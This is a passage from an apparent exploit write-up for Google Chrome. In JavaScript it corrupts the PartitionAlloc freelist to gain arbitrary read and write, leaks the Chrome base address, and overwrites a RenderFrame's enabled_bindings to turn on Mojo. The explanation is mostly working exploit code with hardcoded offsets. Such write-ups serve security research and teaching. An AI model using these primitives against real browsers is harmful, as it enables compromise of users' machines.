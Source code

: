 Arbitrary write is implemented in the same manner:

- backup the original address that was in the freelist
- set first element in freelist to the destination address
- allocate an object. the object will be allocated at the destination address.
- write value into object
- fix freelist by setting address to the value that was backed up in the first step.

```js
function write64(rwHelper, addr, value) {
    var backup = rwHelper[0]
    rwHelper[0] = addr;
    var tmp = new BigUint64Array(1);
    tmp.buffer;
    tmp[0] = value;
    gcPreventer.push(tmp);
    rwHelper[0] = backup;
}
```

Arbitrary read/write implemented, but now we need some **cool** infoleak. 

`PartitionAlloc` metadata block contains pointers that are in chrome base, as we already know the metadata block address, we just read from it and calculate the base for chrome. easy, isn't it?

```js
chrome_base = read64(freelist,metadata_area+16n) - 0xaa246a8n;
console.log("chrome base @ "+ hex(chrome_base))
```

The very last part of the exploit is enabling mojo for our process. For that we need to overwrite `enabled_bindings` variable for our `RenderFrame` in almost the same way as it was done in one of the project zero [exploits](https://googleprojectzero.blogspot.com/2019/04/virtually-unlimited-memory-escaping.html).

Global object `g_frame_map` is traversed to find the address of current `RenderFrame`. Then,  `enabled_bindings` in this object is overwritten to allow `mojo`.

```js
frame_map_ptr = chrome_base + 0xaa693a8n
console.log("chrome base @ "+ hex(chrome_base))
console.log("g_frame_map @ "+ hex(frame_map_ptr))

frame_map_ptr += 0x8n;
begin_ptr = read64(freelist,frame_map_ptr);
console.log("begin_ptr @ "+ hex(begin_ptr))

node_ptr = read64(freelist,begin_ptr+0x28n);
console.log("node_ptr @ "+hex(node_ptr));

render_frame_ptr = node_ptr;
//render_frame_ptr = read64(freelist,render_frame_ptr1);
console.log("render_frame_ptr @ "+hex(render_frame_ptr));



enabled_bindings = render_frame_ptr + 0x580n;
console.log("enabled_bindings @ "+hex(enabled_bindings));

write64(freelist,enabled_bindings,0x2n);
```
